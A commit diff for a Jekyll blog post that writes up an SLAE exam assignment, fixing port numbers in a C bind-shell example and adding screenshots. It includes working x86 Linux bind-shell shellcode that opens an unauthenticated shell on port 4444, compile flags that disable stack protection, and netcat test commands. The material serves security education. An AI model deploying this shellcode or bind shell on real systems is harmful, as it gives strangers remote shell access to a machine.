

Before and after one commit to smarinovic/smarinovic.github.io, a Jekyll site: the page built from _posts/2020-05-23-SLAE-exam-assessment-01.md, in a window 1280 px wide and 1400 px high, scrolled down 279 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
new screenshots

````diff
--- a/_posts/2020-05-23-SLAE-exam-assessment-01.md
+++ b/_posts/2020-05-23-SLAE-exam-assessment-01.md
@@ -42,7 +42,7 @@ int main() {
   server.sin_port = htons(4444);              // port 4444
   server.sin_family = AF_INET;                // address family (ip v4)
 
-  // Bind socket to ip 0.0.0.0, port 4000
+  // Bind socket to ip 0.0.0.0, port 4444
   bind(socketd, (struct sockaddr*) &server, sizeof(server));
 
   // Listen for incoming connections
@@ -61,8 +61,8 @@ int main() {
 }
 ```
 
-Once application is compiled (`with: gcc bind.c`) and run (`./a.out`), we can confirm with netstat (`netstat -antvp`) and netcat (`nc -v 127.0.0.1 4000`)
-that application is indeed listening at port 4000 and provides shell to whoever connects to listening port as shown on following screenshot.
+Once application is compiled (`with: gcc bind.c`) and run (`./a.out`), we can confirm with netstat (`netstat -antvp`) and netcat (`nc -v 127.0.0.1 4444`)
+that application is indeed listening at port 4444 and provides shell to whoever connects to listening port as shown on following screenshot.
 ![bind shell](https://smarinovic.github.io/assets/img/slae_00001.png)
 
 ## Syscalls ##
@@ -446,13 +446,16 @@ objdump -d bind |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr
 "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc9\x51\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x89\xc3\x66\xb8\x69\x01\xb2\x16\xcd\x80\x31\xc0\xb8\x6b\x01\x00\x00\x89\xfb\xb1\x02\xcd\x80\x31\xc0\xb8\x6c\x01\x00\x00\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x31\xff\x89\xc7\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
 ```
 
-And when we put it is skeleton C program, we can also confirm it works with netstat and netcat:
+And when we put it is skeleton C program, we can also confirm it works with netstat:
 
 ```
 gcc -fno-stack-protector -z execstack -m32 skeleton.c -o bind_shell
 
 ```
+![opcode test](https://smarinovic.github.io/assets/img/slae_00004.png)
 
+
+## Wrapper ##
 Last task was to make port argument easily configurable. Suggested way is to create wrapper. To create wrapper, we need to find where port number is located. Port number is 4444 which is presented as hex (little endian format): \x11\x5c. When we know the location of port, we can split shell code in pre-port part and post-port part. Python script generates hex representation of given port number and combines all three parts (pre-port, port and post-port part of shell code) in new shell code.
 
 ```
````
